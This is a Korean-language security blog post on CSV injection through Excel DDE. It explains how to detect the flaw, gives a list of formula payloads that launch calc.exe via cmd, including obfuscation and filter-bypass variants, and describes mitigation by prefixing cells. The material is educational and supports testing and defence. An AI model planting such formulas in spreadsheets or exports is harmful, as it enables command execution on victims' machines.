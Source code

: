 ```yaml
---
layout: post
title: CSV Injection
subtitle: Dynamic Data Exchange를 활용한 악성 CSV File 생성
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
>🚨
>현재는 사용자가 DDE 작동 허용 설정을 하더라도 DDE가 포함된 CSV 파일을 열 때, Excel 경고창이 나타도록 되어있어 사회 공학적 요소도 필요한 공격 방법입니다.

Formula Injection 취약점 내 한 종류로 분류되는 CSV Injection은 일반적으로 CSV Export 등과 같은 CSV File Download 기능에서 발생됩니다.   
☑️간혹 잘못된 로직으로 .xlsx 생성 시에 발생하기도 합니다.   

발생 원리는 DDE(Dynamic Data Exchange)라는 Window 운영체제에서 응용 프로그램 간 데이터 전송을 위해 사용되는 기능이 악의적으로 작동됨에 기반합니다.   

운영체제 명령어를 실행시킬 수 있다는 점에서 
## Detect & Exploit 
### Detect
사용자 입력 값이 CSV File Download 시 반영되는 지 확인하고, 악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞 부분에 위치할 수 있는 지 확인하면 됩니다.   
```Packet
#Request
GET /api/csv_export HTTP/2
Host: victim.com

#Response
HTTP/2 200 OK

title
=2+5+cmd|' /C calc'!A0
```

### Exploit
탐지한 부분에 악성 DDE를 삽입 후 다운로드하여 작동 여부를 살펴보면 됩니다.
```Excel
#Basic Payload
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
=cmd|' /C calc'!'A1'

#Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

#Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```
## Security Measures
악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞부분에 위치할 수 없도록 `Space`, `'` 등을 가장 앞에 삽입하여 조치하면 됩니다.
```Excel
'=2+5+cmd|' /C calc'!A0
 =cmd|' /C calc'!'A1'
```
## References
[Formula/CSV/Doc/LaTeX/GhostScript Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)   
[OWASP-CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)   
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection)